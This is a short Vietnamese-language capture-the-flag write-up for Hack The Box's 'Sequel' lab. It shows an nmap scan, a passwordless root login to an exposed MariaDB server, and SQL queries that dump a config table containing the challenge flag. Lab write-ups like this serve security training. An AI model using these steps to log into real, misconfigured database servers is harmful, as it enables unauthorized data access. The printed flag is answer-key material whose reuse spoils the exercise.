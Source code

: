# Sequel
Lời giải cho [sequel](https://app.hackthebox.com/starting-point)\
tags: SQL, MariDB, Weak Password
## Mục đích
1. Giới thiệu Sql server service - `mysql` 
2. Lỗi cơ bản khi cài đặt sql server (cầu hình truy cập public)
3. Sử dụng các script `mysql` để kết nối máy chủ dữ liệu và các câu lệnh cơ bản của SQL để truy xuất dữ liệu khi đã truy cập thành công.
## Thu thập thông tin
Sử dụng `nmap -SV <IP>` có kết quả:
```
3306/tcp open  mysql?
```
Có thể kết nối sử dụng `mysql` với user mặt định.
## Khai thác
1. Sử dụng `mysql` và kết nối với `root` user (ở đây bị lỗi cài đặt từ admin nên cho phép ko cần mật khẩu)
2. Sử dụng câu lệnh `sql` để thực hiện truy xuất dữ liệu từ database:
```sql
show tables;
use htb;
show databases;
select * from config;
```
3. Thu kết quả `flag`:
```
MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```
